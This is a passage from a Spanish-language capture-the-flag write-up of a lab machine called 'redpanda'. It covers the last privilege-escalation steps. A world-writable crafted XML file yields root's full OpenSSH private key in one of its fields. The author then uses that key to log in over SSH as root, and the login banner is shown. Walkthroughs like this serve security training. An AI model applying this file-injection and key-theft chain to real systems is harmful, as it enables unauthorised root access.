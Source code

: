 
Le asigno el permiso ```777``` para que pueda ser sobrescrito

```null
woodenk@redpanda:/opt/panda_search$ chmod 777 /tmp/rubbx_creds.xml 
```

Obtengo la clave

```null
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>damian</author>
  <image>
    <uri>/img/angy.jpg</uri>
    <views>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</views>
  </image>
  <image>
    <uri>/img/shy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/crafty.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/peter.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

La introduzco en un archivo y utilizo como archivo de identidad para ver la segunda flag

```null
ssh root@10.10.11.170 -i id_rsa
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 28 Jun 2023 05:19:31 PM UTC

  System load:           0.0
  Usage of /:            80.9% of 4.30GB
  Memory usage:          48%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.170
  IPv6 address for eth0: dead:beef::250:56ff:feb9:aa0f


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```